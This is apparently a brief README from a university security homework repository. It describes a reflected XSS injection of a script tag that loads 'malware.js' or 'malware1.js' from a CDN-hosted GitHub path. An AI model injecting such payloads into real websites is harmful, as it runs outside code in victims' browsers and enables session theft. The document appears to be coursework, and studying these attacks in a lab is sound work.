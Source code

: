 Use reflected XSS to insert the following statement:

<script src="https://cdn.jsdelivr.net/gh/ajc9076/csec380-hw6/malware.js"></script>

or 

<script src="https://cdn.jsdelivr.net/gh/ajc9076/csec380-hw6/malware1.js"></script>

(i used the second one in the assignment because the CDN cached an old version of the first one)
